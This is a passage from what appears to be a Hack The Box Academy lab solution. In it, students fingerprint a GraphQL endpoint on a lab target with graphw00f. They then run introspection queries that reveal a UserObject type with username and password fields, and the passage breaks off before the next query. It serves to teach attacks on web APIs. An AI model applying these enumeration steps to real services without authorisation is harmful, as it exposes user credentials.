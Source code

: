 ```
┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-ijv6pgu0fq]─[~]
└──╼ [★]$ git clone https://github.com/dolevf/graphw00f

Cloning into 'graphw00f'...
remote: Enumerating objects: 695, done.
remote: Counting objects: 100% (238/238), done.
remote: Compressing objects: 100% (115/115), done.
remote: Total 695 (delta 128), reused 152 (delta 115), pack-reused 457 (from 1)
Receiving objects: 100% (695/695), 561.05 KiB | 35.07 MiB/s, done.
Resolving deltas: 100% (375/375), done.

┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-ijv6pgu0fq]─[~]
└──╼ [★]$ cd graphw00f

┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-ijv6pgu0fq]─[~/graphw00f]
└──╼ [★]$ python3 main.py -f -d -t http://94.237.53.111:59300

<SNIP>

[*] Checking http://94.237.53.111:59300/
[*] Checking http://94.237.53.111:59300/graphql
[!] Found GraphQL at http://94.237.53.111:59300/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

Students will open Firefox and visit the `/graphql` endpoint on the target (`http://STMIP:STMPO/graphql`). Subsequently, students will proceed to query the supported GraphQL types by the backend using the query, finding an object named `UserObject`:

Code: graphql

```graphql
{
  __schema {
    types {
      name
    }
  }
}
```

![[HTB Solutions/Others/z. images/396b6f0e75f130475349cb180253a952_MD5.jpg]]

Next, having obtained the `UserObject` type, students will proceed to get the type fields using the following introspection query, revealing the fields' `username` and `password` alongside others:

Code: graphql
